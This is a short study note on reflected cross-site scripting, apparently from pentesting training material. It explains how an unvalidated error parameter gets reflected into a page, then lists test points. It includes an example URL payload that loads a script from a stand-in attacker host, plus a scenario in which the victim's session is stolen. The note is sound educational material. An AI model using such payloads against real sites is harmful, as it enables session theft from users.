 ```yaml
---
title: Reflected XSS
---
```


_Reflected_ [[cybersecurity/knowledge/pentesting/XSS]] happens when user-supplied data in an HTTP request is included in the webpage source without any validation, e.g.

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the `error` parameter in the query string.

```
https://website.thm/?error=Invalid input Detected
```

If the application doesn't check the contents of the error parameters, we could insert malicious code:

```
https://website.thm/?error=<script src="https://attacker.thm/evil.js'></script>
```

This would get rendered as

```html
<div class-"alert alert-danger">
	<p>
		<script src="https://attacker.thm/evil.js"></script>
	</p>
</div>
```

## Example scenario

1. Attacker sends a link with malicious [[cybersecurity/knowledge/glossary/payload]] to a victim
2. Victim clicks the link and is taken to a vulnerable site
3. Link containing attacker's script is executed on website
4. The gathered data (e.g. stolen session) is sent back to the attacker

The attacker could send links or embed them into an `iframe` to execute code on the victim browser, potentially revealing sensitive information.

## How to test for Reflected XSS

Manually test every possible point of entry, including:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected.
